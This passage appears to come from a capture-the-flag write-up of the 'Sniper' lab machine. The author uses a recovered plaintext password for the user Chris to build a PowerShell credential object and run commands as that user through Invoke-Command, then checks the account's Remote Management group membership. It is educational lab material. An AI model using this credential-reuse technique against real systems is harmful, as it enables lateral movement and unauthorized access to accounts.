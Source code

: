 ```

C:\>powershell

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\>

```

Now I can run as Chris, and it works:

```

PS C:\> hostname
Sniper
PS C:\> $user = "Sniper\Chris"
PS C:\> $pass = "36mEAhz/B8xQ~2VM"
PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\> $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
PS C:\> Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
sniper\chris

```

This means the creds are good, and that Chris is in the “Remote Management Users” group, as I can verify:

```

PS C:\> net user chris
User name                    Chris
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/11/2019 6:53:37 AM
Password expires             Never
Password changeable          4/11/2019 6:53:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   10/10/2019 5:53:48 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.

```
